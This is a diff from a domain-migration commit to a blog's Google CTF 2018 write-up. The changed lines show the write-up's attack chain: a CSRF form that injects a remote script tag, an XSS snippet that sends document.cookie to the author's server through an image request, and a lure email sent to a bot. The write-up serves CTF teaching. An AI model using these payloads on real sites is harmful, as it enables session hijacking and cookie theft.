

Before and after one commit to jspenguin2017/Blog, a website: page docs/Google_CTF_2018_2.html in a window 1280 px wide. Shown: the part 5108-5962 px from the top of the page, without its empty margins (96-1183 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
domain migration

```diff
--- a/docs/Google_CTF_2018_2.html
+++ b/docs/Google_CTF_2018_2.html
@@ -263,7 +263,7 @@ form using a (separate) CSRF exploit:</p>
         const form = document.querySelector("form");
         const [user, pass] = form.querySelectorAll("input");
         user.value = '&lt;script src="https:';
-        pass.value = 'blog.jspenguin.com/other/Google_CTF_2018_2/exploit.js"&gt;&lt;\/script&gt;';
+        pass.value = 'blog.hugoxu.com/other/Google_CTF_2018_2/exploit.js"&gt;&lt;\/script&gt;';
         form.submit();
     &lt;/script&gt;
 &lt;/body&gt;
@@ -275,7 +275,7 @@ form using a (separate) CSRF exploit:</p>
 // Check domain to prevent misuse
 if (document.domain === "router-ui.web.ctfcompetition.com") {
     const img = document.createElement("img");
-    img.src = "https://jspenguin.com/cat.png?" + btoa(document.cookie);
+    img.src = "https://legacy.hugoxu.com/cat.png?" + btoa(document.cookie);
     document.documentElement.append(img);
 }
 </code></pre>
@@ -285,13 +285,13 @@ server logs. It's time to send the email:</p>
 
 Cat Pictures
 
-I want to steal your session cookies, no, I mean I have cat pictures here: https://blog.jspenguin.com/other/Google_CTF_2018_2/portal.html
+I want to steal your session cookies, no, I mean I have cat pictures here: https://blog.hugoxu.com/other/Google_CTF_2018_2/portal.html
 </code></pre>
 <p>After just a few seconds, I got a reply, probably from a bot:</p>
 <pre><code>Thanks for the link!
 
 Thanks for the
-link "https://blog.jspenguin.com/other/Google_CTF_2018_2/portal.html", I'll
+link "https://blog.hugoxu.com/other/Google_CTF_2018_2/portal.html", I'll
 check it out as soon as possible!
 </code></pre>
 <p>Soon after, the cookie landed in my server log:</p>
```
Also changed, not shown: src/pages/Google_CTF_2018_2.MD (+4 -4 lines).
